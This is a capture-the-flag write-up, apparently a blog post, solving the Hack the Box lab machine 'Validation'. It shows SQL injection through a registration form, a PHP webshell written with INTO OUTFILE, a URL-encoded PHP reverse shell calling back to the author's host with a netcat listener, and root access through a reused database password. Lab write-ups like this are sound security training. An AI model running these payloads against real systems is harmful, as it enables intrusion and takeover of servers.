









# Validation
**Date:** March 14th 2022

**Author:** j.info

**Link:** [**Validation**](https://app.hackthebox.com/machines/Validation) CTF on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>



<br>

## Objectives
- user own
- system own

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -A -T4 10.10.11.116`

```bash
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
8080/tcp open     http          nginx
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.11.116 -t 100 -r -x php,txt,html -w dir-med.txt`

```bash
/account.php          (Status: 200) [Size: 16]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 403) [Size: 277]
/js                   (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 16088]
```

<br>

## Website Digging and SQLi

Visiting the main page:



<br>

I look at the page source code and don't find anything interesting. There are no cookies assigned to us. Checking out **account.php** and **config.php** don't lead to anything interesting.

At this point registering looks like the best bet.

I register a user called testuser and get:



<br>

Still nothing interesting in the page source, but we do now have a cookie assigned to us. Inspecting the cookie it turns out to be an MD5 hash of our username:



<br>

I try to use some of the standard SQLi variations such as **' or 1=1** and **admin' --** in the username field and no luck.

I start up **burp** and capture a registration request which shows us there are 2 parameters to test with, **username** and **country**.



<br>

I send the request over to **burp repeater** for further experimentation.

Adding a ' after the country parameter gets us an error message so it looks our input isn't sanitized and we can potentially use that for injection:



<br>

I send the following through to test and it works without an error message. This shows us the user is **uhc@localhost** and we now know the format to prevent errors:

```sql
username=testuser&country=Argentina' UNION SELECT user()-- -
```

There's a lot we could do here but I'm going to go straight for creating my own PHP file to use as a webshell. I use **INTO OUTFILE** to create a file called **test.php** with the following in it:



<br>

If successful this will allow us to navigate to **test.php** and provide it a **?test=whatever command we want**. Navigating to it via this URL:

```
http://10.10.11.116/test.php?test=hostname
```

We get back:



<br>

So, our webshell is working. Let's see about getting a reverse shell now.

<br>

## System Access

I test several different shells from [**revshells.com**](https://www.revshells.com/) and ultimately end up with the **PHP proc_open** shell working after URL encoding it.

Navigating to the URL with the reverse shell code inserted and a listener running on my system:

```
http://10.10.11.116/test.php?test=php%20-r%20%27$sock=fsockopen(%22MY IP%22,4444);$proc=proc_open(%22bash%22,%20array(0=%3E$sock,%201=%3E$sock,%202=%3E$sock),$pipes);%27
```

```bash
─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.11.116] 43160
ls
account.php
config.php
css
index.php
js
test.php
```

So we have shell but it's a very ugly one that I'll upgrade to something a little easier to work with. I check to see if python or python3 are on the system and they aren't so I end up using the **script** method:

```bash
script -qc /bin/bash /dev/null
CTRL+Z to background my session
stty raw -echo; fg; reset
export TERM=xterm
```

With that we have an interactive shell that's much better to work with.

<br>

## User Own

I change over to the **/home** directory and the only user listed there is **htb**. Changing to that directory lists only one file: **user.txt**

`cat user.txt`

```
45802ac6cc0565a676343bd99a362125
```

<br>

## System Enumeration

I open up the database and login but don't find anything useful inside of it.

I look for some of the more common escalation vectors like files with SUID or capabilities and don't find anything. Nothing in /opt. No backups in /var/backups. Nothing out of the ordinary in /tmp.

Looking in the / directory shows us that we're in **docker container** since it lists a **.dockerenv** file.

I try several methods to transfer linpeas or deepce over to the container but none of them work, so it's back to manual enumeration.

Checking **/var/www/html** to see what we have in the websites directory I find a file called **config.php**. Viewing it shows us a username and password for an SQL database called registration.

```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

I login and look through the database but there isn't anything useful that I can find.

<br>

## Root Own

Finally I try to use the password on the root user and it works. I know it said global in it, but I wasn't expecting that for sure. And I also wasn't expecting this to be the end of the box figuring we'd have to escape the container, but the root flag is sitting there in the root directory.

`su root`

```bash
www-data@validation:/$ su root
Password: 
root@validation:/# cat /root/root.txt
cae6b7bbd0642279d781299d77f55d28
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **burp** to inspect and modify requests
- **SQLi** to create our own **PHP webshell** on the system
- Using our **PHP webshell** to obtain a reverse shell
- Finding credentials in a config file and using them to login as root

<br>

Many thanks to:
- [**ippsec**](https://app.hackthebox.com/users/3769) for creating this CTF.
- **Hack the Box** for hosting this CTF.

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)